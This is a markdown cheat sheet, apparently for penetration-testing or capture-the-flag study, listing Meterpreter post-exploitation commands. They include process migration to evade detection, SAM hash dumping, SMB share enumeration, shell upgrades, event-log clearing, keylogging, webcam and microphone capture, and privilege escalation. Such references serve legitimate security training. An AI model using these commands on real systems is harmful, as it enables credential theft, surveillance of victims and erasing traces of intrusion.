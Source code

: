 # 🚀 Meterpreter Essentials

## 🎯 1. Basic Info Gathering

### System Information

```bash
sysinfo  # Shows system details (OS, architecture, domain, users)
```

### Get User ID

```bash
getuid  # Shows which user the Meterpreter session is running under
```

### List Processes

```bash
ps  # Lists running processes (to find PIDs for migration)
```

## 📂 2. Migrating to Another Process

Used to stabilize the session or evade detection.

```bash
migrate <pid>  # Example: migrate 768
```

## 🔍 3. Dumping Hashes

Extracts local password hashes (SAM database).

```bash
hashdump
```

## 📡 4. Finding SMB Shares

Run from MSF console:

```bash
use post/windows/gather/enum_shares
set session <id>
run
```

**Example Output**:

- `SYSVOL`, `NETLOGON`: Typical domain shares
- `speedster`: Possible custom share

## 💻 5. Upgrading Shells

Upgrade a simple cmd shell to Meterpreter:

```bash
sessions -u <session_id>
```

Or run the `shell_to_meterpreter` script.

## 🛠 6. Meterpreter Core Commands

```bash
help  # Lists available commands
```

|Command|Description|
|---|---|
|`background`|Sends session to background|
|`sessions`|Lists/switches sessions|
|`exit`|Ends the session|
|`load`|Loads extensions (e.g., `load kiwi`)|
|`run`|Executes Meterpreter scripts or modules|

## 📁 7. File System Commands

|Command|Description|
|---|---|
|`ls`|List files in current directory|
|`cd`|Change directory|
|`pwd`|Print current directory|
|`cat <file>`|View file contents|
|`download`|Download file/directory|
|`upload`|Upload file/directory|
|`search`|Search for files|
|`rm <file>`|Delete file|

## 🌐 8. Network Commands

|Command|Description|
|---|---|
|`ifconfig`|Show network interfaces|
|`netstat`|List network connections|
|`arp`|Show ARP table|
|`route`|View/modify routing table|
|`portfwd`|Set up local->remote port forward|

## ⚙️ 9. System Commands

|Command|Description|
|---|---|
|`execute`|Run a system command|
|`shell`|Drop to normal cmd shell|
|`getpid`|Get current PID|
|`kill <pid>`|Kill process|
|`clearev`|Clear event logs|
|`shutdown`|Power off system|
|`reboot`|Restart system|

## 🎥 10. Other Powerful Options

|Command|Description|
|---|---|
|`screenshot`|Capture screen|
|`keyscan_start`|Start keylogging|
|`keyscan_dump`|Dump keystrokes|
|`record_mic`|Record from microphone|
|`webcam_snap`|Take a webcam picture|
|`getsystem`|Try to elevate to SYSTEM privilege|

## ✅ Quick Notes

- Always run `help` to see available commands (they vary based on OS and Meterpreter payload).
- If a command fails, check privileges or try migrating to another process.
- Advanced modules (e.g., `hashdump`, `getsystem`, `kiwi`, `webcam`) may require **SYSTEM privileges**.
